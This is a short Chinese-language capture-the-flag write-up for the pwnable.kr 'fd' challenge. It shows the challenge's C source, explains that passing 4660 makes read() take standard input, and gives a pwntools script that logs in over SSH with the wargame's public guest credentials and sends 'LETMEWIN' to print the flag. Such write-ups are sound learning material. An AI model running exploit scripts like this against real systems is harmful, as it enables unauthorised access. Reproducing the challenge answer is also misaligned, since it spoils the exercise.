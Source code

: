 ```yaml
---
title: pwnable.kr writeup
tags:
  - PWN
  - pwnable.kr
date: 2017/4/30
---
```


## [Toddler's Bottle]

### fd

> Mommy! what is a file descriptor in Linux?
>
> * try to play the wargame your self but if you are ABSOLUTE beginner, follow this tutorial link: https://www.youtube.com/watch?v=blAxTfcW9VU
>
> ssh fd@pwnable.kr -p2222 (pw:guest)


这题给了源码：

```cpp
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
char buf[32];
int main(int argc, char* argv[], char* envp[]){
	if(argc<2){
		printf("pass argv[1] a number\n");
		return 0;
	}
	int fd = atoi( argv[1] ) - 0x1234;
	int len = 0;
	len = read(fd, buf, 32);
	if(!strcmp("LETMEWIN\n", buf)){
		printf("good job :)\n");
		system("/bin/cat flag");
		exit(0);
	}
	printf("learn about Linux file IO\n");
	return 0;

}
```

首先是要知道标准io，read的第一个参数是标准输入，即数字0，所以argv[1] = 0x1234 = 4660。buf要等于"LETMEWIN\n"，也就是输入"LETMEWIN"加回车，得到flag。

poc:
```python
from pwn import *
#context.log_level = 'debug'

pwn_ssh = ssh(host='pwnable.kr',user='fd',password='guest',port=2222)

cn = pwn_ssh.process(argv=['fd','4660'],executable='./fd')

cn.sendline('LETMEWIN')
print cn.recv()
```
